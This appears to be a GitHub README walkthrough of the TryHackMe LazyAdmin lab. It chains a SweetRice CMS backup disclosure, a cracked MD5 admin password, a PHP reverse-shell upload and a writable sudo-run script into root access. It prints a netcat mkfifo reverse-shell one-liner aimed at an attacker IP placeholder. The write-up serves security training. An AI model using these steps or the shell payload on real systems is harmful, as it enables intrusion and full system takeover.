



# 🚩 TryHackMe — LazyAdmin

<br>
<br>


---

## 📌 Overview

This repository contains a step-by-step walkthrough for the **LazyAdmin** room on TryHackMe. The attack path focuses on **service enumeration**, exploiting a **backup disclosure vulnerability** in the **SweetRice CMS**, gaining administrative access, and escalating privileges to root.

---
## 🛠 Tools  

``` 
nmap
dirsearch
browser (view-source)
search engine
crackstation
nc
sudo
Linux command-line utilities

```
## 🔍 Enumeration

The engagement started with network and service enumeration using **Nmap** to identify exposed services and their versions.

**Findings:**

* **Port 22:** SSH (OpenSSH 7.2p2)
* **Port 80:** HTTP (Apache 2.4.18)


---

## 📁 Directory Discovery

With an active web server identified, directory enumeration was performed using **dirsearch**.

* Discovered path: `/content/`


Navigating to `/content/` revealed a website running **SweetRice CMS**.


---

## 🔎 Vulnerability Research

Research into SweetRice vulnerabilities uncovered a known exploit:

* **SweetRice 1.5.1 – Backup Disclosure**
* **Exploit-DB ID:** 40718

This vulnerability allows unauthenticated access to exposed MySQL backup files.


---


---

## 💥 Exploiting Backup Disclosure

Using the exploit details, the following directory was accessed:

```
/content/inc/mysql_backup/
```

A SQL backup file was discovered:

* `mysql_bakup_20191129023059-1.5.1.sql`


Inspecting the SQL file revealed administrator credentials stored in the `--%_options` table:

* **Username:** manager
* **Password Hash (MD5):** `42f749ade7f9e195bf475f37a44cafcb`


---

## 🔓 Hash Cracking

The MD5 hash was cracked using **CrackStation**, revealing the plaintext password:

* **Password:** `Password123`


---

## 🔐 Admin Login & Dashboard Access

Using the recovered credentials, the admin panel was accessed at:

```
/content/as/
```


After authentication, access to the **Media Center** was obtained, which allows file uploads  enabling **Remote Code Execution (RCE)**.


---

## 🐚 Post‑Exploitation (Gaining a Shell)

A PHP reverse shell was uploaded via the Media Center. A Netcat listener was started locally, and the uploaded shell was triggered.

Result:

* Reverse shell obtained as **www-data**


---

## 🚀 Privilege Escalation

Privilege checks were performed using:

```
sudo -l
```



The user was allowed to run a Perl script (`backup.pl`) as root. Inspection showed that it executed another script:

* `/etc/copy.sh`


---

## 🧨 Root Access

Since `/etc/copy.sh` was writable, it was replaced with a reverse shell payload:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f" > /etc/copy.sh
```

The Perl script was then executed with sudo, triggering a **root reverse shell**.



---

## ✅ Final Result

* Initial Access → SweetRice Backup Disclosure
* Credential Compromise → Cracked MD5 admin password
* RCE → PHP shell upload via Media Center
* Privilege Escalation → Writable script executed with sudo
* **Root Access Achieved**

---
## 🧠 What This Lab Teaches

- Exposed backups can lead directly to full system compromise
- Weak credential storage (MD5 hashes) enables easy account takeover
- File upload functionalities are a common path to RCE
- Misconfigured sudo scripts can be abused for root escalation
- Enumeration is the key to chaining web exploitation into full privilege escalation

## 📌 Conclusion

The LazyAdmin machine was fully compromised by chaining multiple common weaknesses:
an exposed CMS backup, weak password hashing, unrestricted file uploads, and a writable script executed with sudo.

This lab highlights how **poor web application hygiene combined with sudo misconfigurations** can allow an attacker to escalate from a simple web foothold to full root access.

> *In real environments, one leaked backup is often all an attacker needs.*

---
👤 **Author:** Anka0X  
🔗 **LinkedIn:** https://www.linkedin.com/in/manka-sec/


